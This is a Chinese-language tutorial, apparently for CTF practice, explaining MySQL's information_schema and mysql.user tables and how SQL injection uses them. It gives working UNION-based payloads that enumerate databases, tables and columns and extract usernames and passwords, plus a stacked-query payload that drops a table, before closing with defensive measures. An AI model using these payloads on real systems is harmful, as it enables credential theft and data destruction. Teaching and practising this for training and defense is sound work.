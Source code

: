 ### 一、MySQL 系统表简介

MySQL 的 **系统表** 存储在 `information_schema` 和 `mysql` 数据库中。它们保存了数据库的元数据，如表、列、用户权限、字符集等信息。

- `information_schema`: 存储 MySQL 数据库服务器的元数据信息，用户可以查询这些表来了解数据库的结构。
- `mysql`: 存储 MySQL 用户账户、权限等安全相关的信息。通常只有高权限用户才能访问。

------

### 二、`information_schema` 数据库

`information_schema` 是 MySQL 的元数据表，主要包含以下常用的系统表：

| 系统表             | 描述                                           |
| ------------------ | ---------------------------------------------- |
| `TABLES`           | 存储所有数据库中表的信息，如表名、表类型等。   |
| `COLUMNS`          | 存储所有数据库中列的信息，如列名、数据类型等。 |
| `SCHEMATA`         | 存储所有数据库的名称。                         |
| `KEY_COLUMN_USAGE` | 存储主键、外键等约束信息。                     |
| `USER_PRIVILEGES`  | 存储用户权限信息。                             |
| `CHARACTER_SETS`   | 存储 MySQL 支持的字符集信息。                  |
| `COLLATIONS`       | 存储排序规则相关信息。                         |

------

### 三、常见的 SQL 注入信息枚举过程

通过 **SQL 注入** 攻击，参赛者可以利用系统表来泄露数据库中的敏感信息。以下是常见的步骤：

**获取数据库名称**

```
SELECT schema_name FROM information_schema.schemata;
```

- 获取当前 MySQL 实例中所有数据库的名称。

**获取表名称**

```
SELECT table_name FROM information_schema.tables WHERE table_schema='目标数据库';
```

- 查询某个数据库 (`table_schema`) 中的所有表名。

**获取列名称**

```
SELECT column_name FROM information_schema.columns WHERE table_name='目标表' AND table_schema='目标数据库';
```

- 查询某个表中的所有列名。

**获取表的数据** 一旦知道了表名和列名，可以通过 SQL 注入来获取表内的数据，例如：

```
SELECT login_name, login_passwd FROM lesson_user;
```

------

### 四、基于 `information_schema` 的 SQL 注入示例

假设一个网站存在 SQL 注入漏洞，我们将通过注入获取数据库信息。以下是一个注入场景示例。

#### 场景

网站存在以下查询：

```
SELECT * FROM users WHERE username='$username' AND password='$password';
```

攻击者可以通过修改输入来进行 SQL 注入。

#### 注入步骤

**获取数据库名称**

- 注入 Payload：

  ```
  ' OR 1=1 UNION SELECT schema_name, NULL FROM information_schema.schemata #
  ```

- 解释：通过 `UNION SELECT` 合并查询，列出所有数据库名称。

**获取表名**

- 注入 Payload：

  ```
  ' OR 1=1 UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema='目标数据库' #
  ```

- 解释：查询特定数据库中的所有表。

**获取列名**

- 注入 Payload：

  ```
  ' OR 1=1 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' #
  ```

- 解释：查询特定表中的所有列名。

**获取敏感数据**

- 注入 Payload：

  ```
  ' OR 1=1 UNION SELECT username, password FROM users #
  ```

- 解释：获取 `users` 表中的用户名和密码。

------

### 五、MySQL 用户账户表 (`mysql.user`)

`mysql.user` 是存储 MySQL 用户信息的表，通常只有高权限用户可以访问。

| 列名          | 描述                                                       |
| ------------- | ---------------------------------------------------------- |
| `Host`        | 用户允许登录的主机。                                       |
| `User`        | 用户名。                                                   |
| `Password`    | 用户密码（MySQL 8.0 之前存储为 `authentication_string`）。 |
| `Select_priv` | 是否有 `SELECT` 权限。                                     |
| `Insert_priv` | 是否有 `INSERT` 权限。                                     |
| ...           | 其他权限字段，如 `UPDATE`, `DELETE` 等。                   |

通过 SQL 注入，攻击者可以尝试获取用户表中的信息，从而进行进一步攻击。

#### 示例：列出 MySQL 用户

```
SELECT user, host FROM mysql.user;
```

------

### 六、CTF 中的 SQL 注入技巧

- **盲注**：当页面没有明显返回查询结果时，可以通过布尔盲注和时间盲注推测信息。

- **基于 `UNION` 的注入**：用于获取多个表的结果，特别是当页面返回数据时。

- 堆叠查询

  （仅限某些数据库支持）：在一条语句中执行多个查询。

  ```
  ' OR 1=1; DROP TABLE lesson_user; #
  ```

### 七、SQL 注入防护

1. **使用预处理语句 (Prepared Statements)**：防止 SQL 注入。
2. **输入验证**：对用户输入进行过滤和验证，防止恶意字符注入。
3. **最小权限原则**：限制数据库用户的权限，防止数据被恶意篡改。
4. **隐藏系统信息**：避免将错误信息直接暴露给用户，防止信息泄露。